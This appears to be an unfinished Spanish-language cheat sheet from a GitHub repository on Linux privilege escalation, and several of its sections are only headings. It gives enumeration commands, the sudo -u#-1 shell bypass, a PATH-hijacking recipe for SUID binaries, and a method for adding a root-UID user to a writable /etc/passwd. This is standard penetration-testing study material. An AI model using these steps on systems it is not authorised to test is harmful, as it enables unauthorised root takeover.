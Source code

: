 # Linux

	* [Tools]
	* [Version Kernel]
	* [Permisos de usuario]
	* [PATH]
	* [Permisos de archivos]
	* [Procesos]
	* [Monitoreo de red]
	* [Descargando archivos]
	* [Bypassing]

## Tools

	* [Linpeas]()
	* [Linenum]()
	* [linux-exploit-suggester]()

## Version Kernel

### Enumeracion

```bash
uname -a
```

## Permisos de usuario

### Enumeracion

```bash
sudo -l
```

```bash
cat /etc/sudoers
```

### Explotacion de binarios con permisos para sudo

	* [GTFOBins]()

### AGREGAR CVE	

Si: ALL=(ALL:!root) NOPASSWD:ALL
```bash
sudo -u#-1 /bin/sh 
```

## PATH

### Enumeracion

```bash
echo $PATH
```

### Path: .:/bin/:

Primero busca dentro de la carpeta donde estamos parados.
1. Si podemos, encontrar un binario A con SUID que llame a otro binario B con la ruta relativa
2. Ir a una carpeta donde tengamos permiso de escritura
3. Crear un binario C malicioso con el mismo nombre que binario B
4. Ejecutar binario A

## Permisos de archivos

### Enumeracion

```bash
#Para encontrar archivos con SUID activado
find / -type f -perm -u=s 2>/dev/null

#Encontrar directorios con permisos de escritura
find / -perm 777 2>/dev/null

#SGID activado
find / -perm -g=s -type f 2>/dev/null

#Find Sticky bit
find / -perm -1000 -type d 2>/dev/null
```

### Explotacion de binarios con permisos para SUID/GUID

	* [GTFOBins]()

### passwd con permisos de escritura

```bash
#Crea password para agregar en el archivo /etc/passwd si tiene permisos de escritura
python3 -c 'import crypt; print(crypt.crypt("password", "$6$"))'

#otra opcion
openssl passwd -1


#la linea donde * es donde va la pass
hercules:*:0:0:root:/root:/bin/bash
```

## Procesos

### Enumeracion

```bash
ps aux #para ver si existe cron corriendo
pspy32 #buscar tareas que se repitan en el tiempo, quizas encontrar un crontab para editar
```

```bash
crontab -l
```

### Crontab

```bash
```

## Monitoreo de red
## Descargando archivos
## Bypassing